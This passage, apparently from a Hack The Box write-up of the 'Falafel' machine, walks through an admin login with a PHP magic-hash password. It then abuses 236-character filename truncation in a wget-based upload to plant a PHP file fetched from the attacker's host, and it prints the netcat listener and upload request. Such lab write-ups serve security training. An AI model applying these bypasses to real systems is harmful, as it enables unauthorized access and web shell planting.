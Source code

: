 So after that we can login as admin then with this password of 240610708. There is a handy word list of these strings for different hash types in the Seclists repo: https://github.com/danielmiessler/SecLists/blob/master/Passwords/PHP-Magic-Hashes.txt


![](pics/admin.PNG)

So all that admin has to work with is this image file upload function via a url, along with a possible hint about limits. If you upload a .png file it seems to be using a wget command to do this:
```bash
root@sushi:~/hackthebox/falafel# nc -nlvp 80       
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.73] 34386
GET /shell.png HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.11
Connection: Keep-Alive
```




After messing around for awhile, we try to upload something with a very long name, and we notice that anything over 236 characters the file name gets truncated down. Knowing this, we can try to create a php file that ends in .php.png and is 240 characeters long which allows the upload function to go through properly and will get saved with a normal .php extension. 

```php
POST /upload.php HTTP/1.1
Host: 10.10.10.73
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://10.10.10.73/upload.php
Cookie: PHPSESSID=cpuuab8qt9v2kptq906qpf8463
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

url=http://10.10.14.11/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
```
